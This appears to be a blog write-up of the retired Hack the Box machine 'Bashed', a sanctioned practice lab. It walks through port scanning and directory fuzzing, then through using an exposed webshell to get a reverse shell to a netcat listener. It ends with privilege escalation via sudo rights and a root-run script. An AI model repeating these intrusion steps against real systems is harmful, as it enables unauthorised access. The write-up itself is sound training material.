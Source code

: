 ```yaml
---
layout: post
title: Hack the Box - Bashed
date: 2020-04-25 22:19:22 +0100
description: Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.
img: bashed.png
fig-caption: Bashed
categories: HackTheBox
tags: [Easy, Linux, Retired, CTF]
---
```

## Overview
Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/bashed]
└─$ sudo nmap -p- -T4  10.129.113.137
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 22:30 GMT
Nmap scan report for 10.129.113.137
Host is up (0.018s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
```
As only port 80 is exposed I tried to access it in a browser. The website your greeted with states that [phpbash](https://github.com/Arrexel/phpbash) is located somewhere on the server. So fuzzing would appear to be the approach.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/bashed]
└─$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.113.137/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.113.137/FUZZ
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

                        [Status: 200, Size: 7742, Words: 2956, Lines: 162]
uploads                 [Status: 301, Size: 318, Words: 20, Lines: 10]
php                     [Status: 301, Size: 314, Words: 20, Lines: 10]
css                     [Status: 301, Size: 314, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 313, Words: 20, Lines: 10]
images                  [Status: 301, Size: 317, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 316, Words: 20, Lines: 10]
```
As dev appears to be nonstandard I looked in that directory and found the webshell.
## Foothold
To gain the foothold at this point is simple so I just used a python one-liner to send back a reverse shell [Python Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/bashed]
└─$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.137] 33262
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
```
## Privilege Escalation
When I receive the shell, on linux the first check I always perform is to upload linpeas. From the output I see that the current user can execute commands as the scriptmanager user.
```
www-data@bashed:/home/scriptmanager$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/scriptmanager$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:~$ whoami
whoami
scriptmanager
```
Now that we are the scriptmanager user we have access to the scripts directory located in the root directory. In there we notice there is a python file that we can edit, however there is an output file that is owned by root. This indicates that the script is run by root. So if we enter a reverse shell into the script it should give us a root shell.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/bashed]
└─$ nc -nlvp 4342             
listening on [any] 4342 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.137] 36588
root@bashed:/scripts# whoami
whoami
root
```